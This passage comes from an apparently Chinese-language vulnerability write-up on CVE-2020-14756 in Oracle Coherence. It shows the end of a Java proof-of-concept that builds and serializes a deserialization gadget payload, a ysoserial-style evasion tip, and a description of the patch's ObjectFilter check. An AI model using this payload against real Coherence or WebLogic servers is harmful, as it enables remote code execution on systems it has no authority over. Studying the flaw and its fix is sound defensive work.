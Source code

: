 ```
        Field m_aExtractor = extractorChain.getClass().getSuperclass().getDeclaredField("m_aExtractor");
        m_aExtractor.setAccessible(true);
        m_aExtractor.set(extractorChain,realaExtractors);


        FileOutputStream fileOut =
                new FileOutputStream("cve_2020_14756_1213.ser");
        // 建立对象输入流
        ObjectOutputStream out = new ObjectOutputStream(fileOut);
        //输出反序列化对象
        out.writeObject(attributeHolder);
        out.close();
        fileOut.close();
    `}`
`}`
```

PS：学习yso的思路，如果在序列化时为了防止本地反射爆error，则可先调用toString()方法在初始化时伪装，之后再用反射赋值更改要invoke的方法

[![](https://p5.ssl.qhimg.com/t0155fb1df4d633695f.jpg)](https://p5.ssl.qhimg.com/t0155fb1df4d633695f.jpg)

[![](https://p5.ssl.qhimg.com/t016c4e0be0e5754ecf.jpg)](https://p5.ssl.qhimg.com/t016c4e0be0e5754ecf.jpg)



## 漏洞修补

coherence.jar补丁中，在`readExternalizableLite`方法中对反序列化的数据流调用`ObjectFilter`进行检测

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f6cb7c9c9f792201.jpg)



## 参考链接

[安恒研究院](https://mp.weixin.qq.com/s/E-4wjbKD-iSi0CEMegVmZQ)
